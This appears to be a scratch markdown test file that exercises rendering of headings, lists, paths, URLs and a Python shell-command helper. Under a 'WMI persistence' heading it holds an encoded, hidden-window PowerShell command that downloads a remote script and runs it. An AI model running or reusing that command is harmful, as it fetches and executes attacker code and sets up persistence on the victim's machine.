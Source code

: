
# test
aaa
a
a

* test
 * test
 * test


##  tata

 copy pasted
 ➤ test

bb
###  tata
###
####  tata
#####  tata

#### tata
### tata

### where 



####### This is true


FF7B00
foo
 fdsfsd
 sfds 
 TODO 
 test
TODO
DONE

https://test.com
http://test.com
c:\\windows
C:\\windows
here is : /root/test

/home/cc/github/notes/2fa_domain_admin.md
2fa_domain_admin.md
;;

# tata
tomatoc

`
def sh(cmd, stdin="", sleep=False):
    """ run a command, send stdin and capture stdout and exit status"""
    if sleep:
        time.sleep(0.5)
    # process = Popen(cmd.split(), stdin=PIPE, stdout=PIPE)
    process = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE)
    process.stdin.write(bytes(stdin, "utf-8"))
    stdout = process.communicate()[0].decode('utf-8').strip()
    process.stdin.close()
    returncode = process.returncode
    return returncode, stdout

### WMI persistence

``
powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA

#222222
CTRL+V u 2 0 2 2 

CTRL+V u 2 0 2 2

* fdsf
 * test
* test
* where  is lovedd  ffff 

*******


self.test  

